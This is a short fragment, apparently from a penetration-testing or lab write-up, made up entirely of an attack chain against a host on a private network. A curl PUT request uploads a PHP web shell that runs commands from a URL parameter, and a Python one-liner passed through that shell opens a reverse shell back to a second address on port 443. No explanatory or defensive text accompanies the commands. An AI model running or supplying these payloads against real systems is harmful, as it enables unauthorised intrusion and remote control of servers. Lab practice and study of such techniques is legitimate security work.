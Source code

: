 


    curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' 192.168.30.134/test/cmd.php



192.168.30.134/test/cmd.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.30.131",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
